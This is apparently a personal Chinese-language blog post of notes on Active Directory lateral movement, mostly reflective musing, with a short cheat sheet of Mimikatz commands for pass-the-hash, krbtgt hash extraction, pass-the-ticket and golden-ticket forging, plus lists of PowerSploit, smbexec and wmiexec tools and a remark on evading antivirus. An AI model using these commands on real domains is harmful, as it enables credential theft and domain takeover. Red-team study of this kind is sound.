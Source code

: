 ```yaml
---
title: 'AD DC, 一点横向的笔记'
date: 2021-10-28 18:01:59
tags: Domain stuff
---
```


# AD-DC,一点横向笔记。

会更新的，如果我在那时还活着而且有心情摸鱼的话。
如果有横向笔记的话，竖向笔记作为一个概念的外延和实体化，
存在吗?

无论如何，我不会把所有东西统统一股脑丢在这篇文章里面。
有些内容值得一篇单独的文章，而另一些让我更倾向于选择-把它们留在心里。
所以我的记忆也不是那么差，对吧？

##### PREFACE

​		所以我也许真的记不下来，那么就把这玩意当成笔记好了。激情是如此奇妙的东西，以致于我在这里写这些内容的时候竟无法停止睡觉，喝一杯咖啡或者打打游戏的冲动。人类是非理性的动物，我常说。

​		但是世界上有如此多的诱惑，和更多的fuck-ups.我要如何不因为这种简单的原因毁掉我的一天呢?

​		于是我又想到了时间，每个微秒间的微分函数和原子的震动。我感到迷茫，因为时间总是以如此的节律流逝，以发条钟的滴答声为节律流逝，以聚乙烯和聚乙烯的碰撞声为节律流逝，以白噪声信号的上升沿和下降沿为节律流逝，就如手中的沙和我口边的雾气，我可以感知，但又无法度量。我为时间而感到迷茫，我为一切可能性而感到迷茫，我为存在而感到迷茫，而这...

​		对天发誓(God forsaken)，我不想写下去了。

​		我想，这是对时间的一种浪费也是对过去的我的不尊重，但是我还是写着，写着，写着。

##### CMDLets

"So let's call it cmdlets, eh?"

```powershell
# 我不会在这里写那些基础的玩意，反正你们知道AD是什么玩意，林是什么玩意域是什么玩意TGT是什么AS是什么Kerberos是什么。
# 我甚至不期待有什么人来看。
# 我只期待我能学到什么，或者记住什么。


```

So there's this thing. We use all forms of digital or analog devices and turn them the extension of our memories.
And the machine has memories.
But where's ours?

​		所以问题来了。我们用一切矢量与数码的设备作为我们的记忆外延。
​		所以机器拥有了记忆。
​		但是我们的记忆在哪里?

##### TOOLs

"Those that goes downwards. Simplifies the job anyway."

​		接下来是形而上和形而下。我们成那些形而下的存在为器，或者[工具]，然而器也有其形而上的用途。
​		而人类从更长的时间长河里，是某种工具。
​		我们是形而上的，还是形而下的，或者两者？

```powershell
# Mimikatz
# 一件事情。这玩意在各种地方被乱杀成筛子，所以pypykatz+py2exe解决方案没准有用。你问我？我不擅长C++，而且不知道该写什么。
	# 我知道你们都知道怎么把lsass dump下来，找到ntlm，或者搞到明文密码了，对吧?
	# ...对吧?
# 但是不得不说，记下工具的命令而不是原理让我倍感堵得慌。给人一种"我是skid"的错觉。但是有多少"so called security expert"不是？而且我的C是真的拉胯。
# 我会发一篇关于类似"发出一篇如何复刻mimikatz而且橄榄所有AV的文章有没有搞错"之类的文章的。迟早。
sekurlsa::minidump {fname} # Switch to minidump
sekurlsa::pth /user {uname} /domain {domain_name} /ntlm:{ntlm} /run:{exec} # PTH. 它支持各种长度的ntlm,和aes256。
sekurlsa::krbtgt # Krbtgt Hash
kerberos::ptt {kirbi} # PTT。
kerberos::golden /admin:{admin_ame} /domain:{domain} id:{rid} /sid:{sid} krbtgt:{krb_hash} /ptt # Golden ticket
ts::multirdp # 使得一个RDP session可以被多个用户操作。

# Powersploit
# 在内网机器上的文件Invoke-Request系配合IEX也许很方便。Ignore me, I'm just hungry, and I don't know what I'm talking about.
O
# Metasploit(WHY?)

# Invoke-WmiCommand
# Add-Persistance
# Invoke-TokenManipulation
# Set-CriticalProcess
# Powerup
# Invoke-Portscan
# Powerview
# Misc
	#票子。金票->TGT，银票-ST。 
Ticker+py2exe系?
smbexec
wmiexec

```



##### Other

困了，也许我会更新，也许我不会。
